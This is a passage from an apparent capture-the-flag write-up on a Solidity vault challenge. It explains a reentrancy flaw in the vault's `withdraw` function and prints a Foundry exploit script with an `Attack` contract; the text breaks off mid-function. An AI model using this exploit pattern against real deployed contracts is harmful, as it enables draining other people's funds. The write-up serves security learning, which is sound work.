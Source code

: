 ```soliidty
}
```
{%end %}

## solution

The vulnerability in this contract lies in the `withdraw` function, which is susceptible to a reentrancy attack. Here's why:

1. The contract follows the checks-effects-interactions pattern incorrectly
2. The balance is updated after the external call
3. The contract uses a low-level `call` which forwards all gas

Here's how I exploited it:

The exploit script uses a malicious contract (`Attack`) that implements a `receive()` function to recursively withdraw funds from the vault. When the vault sends ETH to our contract, the `receive()` function is triggered, allowing us to withdraw more funds before the vault updates its balance.

{% note(clickable=true, header="Vault.s.sol") %}

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Vault} from "../src/Vault.sol";

contract VaultSolve is Script {
    Vault public vault = Vault(0x1B3C95A210A8C896b1C14D992600087668cd0174);
    address player = vm.envAddress("PLAYER");


    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Vault : ", address(vault));
        console.log("Vault balance: ", address(vault).balance);
        console.log("Player : ", player);
        console.log("Player balance: ", player.balance);
        Attack attack = new Attack(address(vault));
        console.log("Attack balance: ", address(attack).balance);

        attack.exploit{value: 0.001 ether}();

        console.log("Vault balance: ", address(vault).balance);
        console.log("Attack balance: ", address(attack).balance);
        console.log("Player balance: ", player.balance);


        vm.stopBroadcast();
    }
}
contract Attack{
    Vault public vault;

    constructor(address _vault) public {
        vault = Vault(_vault);

    }
    function exploit() public payable{
        vault.deposit{value: msg.value}(address(this));
        vault.withdraw(0.001 ether);

```